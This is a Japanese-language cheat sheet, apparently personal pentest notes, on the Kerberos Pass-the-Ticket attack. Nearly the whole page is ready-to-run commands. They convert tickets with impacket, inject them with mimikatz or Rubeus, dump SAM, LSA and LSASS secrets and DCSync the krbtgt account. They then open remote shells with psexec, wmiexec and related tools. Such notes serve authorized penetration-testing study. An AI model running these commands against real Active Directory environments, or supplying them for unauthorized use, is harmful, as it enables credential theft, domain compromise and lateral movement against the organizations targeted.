 # Pass The Ticket

Overpass the hash、Silver ticket、golden ticket 攻撃で偽造したり、取得したチケットを使用してパスワードを使うことなく認証を行うことができる

## チケットを UNIX <-> Windows に変換する

```
# Windows -> Linux
impacket-ticketConverter <TICKET_NAME>.kirbi <TICKET_NAME>.ccache

# Linux -> Windows
impacket-ticketConverter <TICKET_NAME>.ccache <TICKET_NAME>.kirbi
```

## Inject the ticket

### Linux

```
export KRB5CCNAME=<TICKET_NAME>.ccache
```

### Windows

mimikatz

````
kerberos::ptt <TICKET_NAME>
````

Rubeus

```
Rubeus.exe ptt /ticket:<TICKET_FILE>
```

読み込んだチケットの確認をするには `klist` コマンドでできる

## Passing the ticket

- Windowsでは、一度Kerberosチケットが読み込まれると特別な操作なく使用することができる
- Linuxでは、`KRB5CCNAME`変数がいったんエクスポートされると、Kerberos認証をサポートするツールでチケットを使用することができる

### 資格情報の取得

#### Linux

Impacket-Scripts

```
impacket-secretsdump -k <DOMAIN>/<USERNAME>@<Target_IP>
```

NetExec

```
netexec smb <Target_IP> -k --sam
netexec smb <Target_IP> -k --lsa
netexec smb <Target_IP> -k -M lsassy
```

Lsassy

```
lsassy -k <Target_IP>
```

#### Windows

mimikatz

```
lsadump::dcsync /dc:<DC_IP> /domain:<DOMAIN> /user:krbtgt
```

### Shellの取得・コマンド実行

#### Linux

impacket-scripts

```
impacket-psexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-smbexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-wmiexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-atexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-dcomexec -k <DOMAIN>/<USERNAME>@<Target_IP>
```

NetExec

```
netexec winrm <Target_IP> -k -x whoami
netexec smb <Target_IP> -k -x whoami
```

#### Windows

```
.\PsExec.exe -accepteula \\<Target_IP> cmd
```

